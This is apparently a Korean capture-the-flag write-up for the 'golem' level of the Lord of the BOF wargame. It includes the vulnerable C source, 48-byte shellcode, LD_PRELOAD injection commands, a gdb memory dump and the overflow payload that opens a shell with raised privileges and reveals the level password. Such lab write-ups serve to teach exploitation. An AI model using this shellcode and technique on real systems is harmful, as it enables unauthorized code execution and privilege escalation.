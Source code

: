 ```yaml
---
title: "[LOB]Level11. golem"
tags: [Wargame, LOB, Write-up]
author: eli_ez3r
key: 20180830
modify_date: 2018-08-30
article_header:
  type: cover
  image:
    src: 
---
```


[+ Stack Destroyer](#){:.button.button--outline-success.button--pill}

```c
/*
        The Lord of the BOF : The Fellowship of the BOF
        - golem
        - stack destroyer
*/
#include <stdio.h>
#include <stdlib.h>

extern char **environ;

main(int argc, char *argv[])
{
	char buffer[40];
	int i;

	if(argc < 2){
		printf("argv error\n");
		exit(0);
	}

	if(argv[1][47] != '\xbf')
	{
		printf("stack is still your friend.\n");
		exit(0);
	}

	strcpy(buffer, argv[1]);
	printf("%s\n", buffer);

        // stack destroyer!
    memset(buffer, 0, 44);
	memset(buffer+48, 0, 0xbfffffff - (int)(buffer+48));
}
```

'\x2f'없는 shell(48byte) = \xeb\x11\x5e\x31\xc9\xb1\x32\x80\x6c\x0e\xff\x01\x80\xe9\x01\x75\xf6\xeb\x05\xe8\xea\xff\xff\xff\x32\xc1\x51\x69\x30\x30\x74\x69\x69\x30\x63\x6a\x6f\x8a\xe4\x51\x54\x8a\xe2\x9a\xb1\x0c\xce\x81



buffer의 시작주소부터 EBP주소까지 0으로 초기화하고,  RET이후부터 0xbfffffff까지 0으로 초기화 한다.

앞문제에서 심볼릭 링크를 이용한 공격을 막혔음을 의미한다.



이럴경우 LD_PRELOAD 환경변수를 이용해야 한다.



> **LD_PRELOAD**
>
> 프로세스를 실행하는 중에 라이브러리를 로딩할 때, LD_PRELOAD 환경변수가 설정되어 있으면 해당 변수에 지정된 라이브러리를 먼저 로딩하고, 이중 libc 함수명과 동일한 함수가 있다면 해당 함수를 먼저 호출해 준다. 이러한 특성을 이용하여 후킹도 가능하다.



##### 1. LD_PRELOAD 환경 변수 등록

tmp.c 라는 파일을 만들고 해당 파일에 NOP코드와 쉘코드로 구성된 파일명으로 컴파일 한다. 이때 `-fPIC -shared` 옵션을 사용하여 컴파일한다. <u>쉘코드 안에는 '\x2f'가 있으면 안된다.</u>

그리고 export LD_PRELOAD 명령어로 해당 파일을 등록한다. <u>이때 파일명을 반드시 절대경로로 지정해야 한다.</u>

> -fPIC : Position-Independent Code의 약자이며 .o 파일을 동적라이브러리로 사용하도록 컴파일 하는 옵션
>
> -shared : 공유 라이브러리를 만드는 옵션

```sh
[skeleton@localhost tmp]$ gcc -fPIC -shared tmp.c -o `python -c 'print "\x90"*100+"\xeb\x11\x5e\x31\xc9\xb1\x32\x80\x6c\x0e\xff\x01\x80\xe9\x01\x75\xf6\xeb\x05\xe8\xea\xff\xff\xff\x32\xc1\x51\x69\x30\x30\x74\x69\x69\x30\x63\x6a\x6f\x8a\xe4\x51\x54\x8a\xe2\x9a\xb1\x0c\xce\x81"'`
```

```sh
[skeleton@localhost tmp]$ export LD_PRELOAD="/home/skeleton/tmp/`python -c 'print "\x90"*100+"\xeb\x11\x5e\x31\xc9\xb1\x32\x80\x6c\x0e\xff\x01\x80\xe9\x01\x75\xf6\xeb\x05\xe8\xea\xff\xff\xff\x32\xc1\x51\x69\x30\x30\x74\x69\x69\x30\x63\x6a\x6f\x8a\xe4\x51\x54\x8a\xe2\x9a\xb1\x0c\xce\x81"'`"
```



```sh
(gdb) x/32x $esp-3000
....
0xbffff4f4:	0xbffff500	0x400075bb	0x40017000	0x00002fb2
0xbffff504:	0x40013868	0xbffff6e4	0x4000380e	0x40014478
0xbffff514:	0x6d6f682f	0x6b732f65	0x74656c65	0x742f6e6f
0xbffff524:	0x902f706d	0x90909090	0x90909090	0x90909090
0xbffff534:	0x90909090	0x90909090	0x90909090	0x90909090
0xbffff544:	0x90909090	0x90909090	0x90909090	0x90909090
0xbffff554:	0x90909090	0x90909090	0x90909090	0x90909090
0xbffff564:	0x90909090	0x90909090	0x90909090	0x90909090
(gdb)
0xbffff574:	0x90909090	0x90909090	0x90909090	0x90909090
0xbffff584:	0x90909090	0xeb909090	0xc9315e11	0x6c8032b1
0xbffff594:	0x8001ff0e	0xf67501e9	0xeae805eb	0x32ffffff
0xbffff5a4:	0x306951c1	0x69697430	0x6f6a6330	0x5451e48a
0xbffff5b4:	0xb19ae28a	0x0081ce0c	0x40013868	0x4000220c
0xbffff5c4:	0xbffffaf5	0x00000000	0x00000000	0x00000000
```

쉘코드가 포함된 LD_PRELOAD 의 주소를 구한다. (0xbffff534 : NOP중간 주소)



```sh
[skeleton@localhost skeleton]$ ./golem `python -c 'print "A"*44+"\x34\xf5\xff\xbf"'`
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA4���
bash$ my-pass
euid = 511
cup of coffee
bash$ id
uid=510(skeleton) gid=510(skeleton) euid=511(golem) egid=511(golem) groups=510(skeleton)
```

`python -c 'print "A"*44+"\x34\xf5\xff\xbf"'`

##### **golem / cup of coffee**